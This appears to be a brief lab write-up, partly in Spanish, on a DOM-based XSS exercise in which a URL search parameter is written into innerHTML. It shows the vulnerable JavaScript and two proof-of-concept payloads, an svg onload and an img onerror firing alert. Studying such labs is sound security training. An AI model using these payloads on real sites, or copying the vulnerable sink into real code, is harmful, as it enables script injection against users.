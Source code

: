 ```yaml
---
layout: default
title: 04 - DOM XSS in innerHTML sink using source location.search
---
```


```javascript
function doSearchQuery(query) {
                                document.getElementById('searchMessage').innerHTML = query;
                            }
                            var query = (new URLSearchParams(window.location.search)).get('search');
                            if(query) {
                                doSearchQuery(query);
                            }
```

```html
<span id="searchMessage">PAYLOAD</span>
```

==innerHTML permite la insercción de etiquetas script pero no los ejecuta==

Alternativas : 

```html
<svg onload="alert('XSS')"></svg>
<img src=1 onerror=alert(1)>
```

